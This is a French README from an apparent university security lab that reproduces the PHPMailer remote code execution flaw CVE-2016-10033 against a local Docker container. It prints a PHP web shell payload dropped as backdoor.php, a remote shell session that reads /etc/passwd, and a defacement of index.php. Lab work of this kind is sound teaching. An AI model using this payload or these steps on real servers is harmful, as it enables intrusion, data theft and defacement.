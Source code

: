 # Ensimag-ssi-2019-2020

## Getting Started
```
$ git clone "https://github.com/elhouti/ensimag-ssi-2019-20.git" && \
cd ensimag-ssi-2019-20
```

## Reproduire la vulnérabilité 

Étape  1: Tout d'abord on va utiliser une image docker qui permet de lancer une application web contenant un formulaire d'envoie de mails avec la librairie PHPMailer(voir index.php) sur un container.
Si jamais vous ne disposez pas de docker sur votre machine (le cas des machines de l'école), [Install Docker on Linux](https://runnable.com/docker/install-docker-on-linux).
```
$ docker run -d -p 8080:80 vulnerables/cve-2016-10033
```
Lorsque l'image soit lancé sur le conteneur docker, visiter localhost:8080

![](index.png)

Étape 2: Lancement du script "exploit.sh", ce dernier injecte le malicious code ``` <?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>``` dans le serveur distant (dans notre cas ça sera "localhost:8080", puisque l'application est exécuté sur un container docker locale) sous la forme d'un fichier php que nous avons l'appelé "backdoor.php" en exploitant La faille de PHPMailer qui ne vérifier pas les données envoyées par l'utilisateur à travers le formulaire avant l'exécution, et par conséquent il va nous donner la possibilité d'éxécuter des commandes à distance à travers ce script injecté (Remot shell).
```
$ bash exploit.sh localhost:8080
```
output: (ls, ls vulnerable, pwd, cat /etc/passwd sont exécuté sur le seveur distant)
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Cible exploitée, accès au shell sur http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Vous avez la main pour saisir Les commandes à exécuter sur le serveur distant ...
[+] (tappez exit pour sortir du shell)
www-data
RemoteShell> ls
vulnerable
RemoteShell> ls vulnerable
travis.phpunit.xml.dist
RemoteShell> pwd
/www
RemoteShell> cat /etc/passwd
smmsp:x:105:108:Mail
RemoteShell> exit
[+] Sortie
```

Étape3: C'est intéressant, mais pour tester quelque chose de plus concrète, lancant le script "second_use_case.sh" qui exécute une commande sur le shell distant qui permet d'écraser le contenu du ficher "index.php" par une page noire contant le mot "defaced".
```
$ bash concret_example.sh localhost:8080
```
output 
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Target exploited, acessing shell at http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Términé avec succès ...
```

résultat

![](ssi.png)

